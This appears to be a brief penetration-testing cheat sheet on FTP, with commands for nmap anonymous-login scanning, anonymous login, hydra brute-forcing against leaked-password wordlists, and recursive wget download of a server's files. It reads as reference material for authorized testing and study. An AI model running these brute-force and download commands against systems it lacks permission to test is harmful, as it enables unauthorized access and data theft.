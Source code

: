 # FTP

## nmap

```shell
nmap -oN nmap/scan_ftp.logs -p 21 --script=ftp-anon $ip
```

## clients

- Check anonymous log in.

```shell
ftp anonymous@$ip
```

- Check for vulnerabilities found during `nmap` enumeration.
- Check common credentials

```shell
hydra \
  -L /usr/share/seclists/Username/top-usernames-shortlist.txt \
  -P /usr/share/seclists/Passwords/darkweb2017-top100.txt \
  $ip ftp
```

- Brute force. 

## Helpers

- If you get the message

```
229 Entering Extended Passive Mode (|||46829|)
```
then make sure to turn off passive mode.

- Recursively download from FTP server using 

```shell
wget -r ftp://username:password@$ip
```
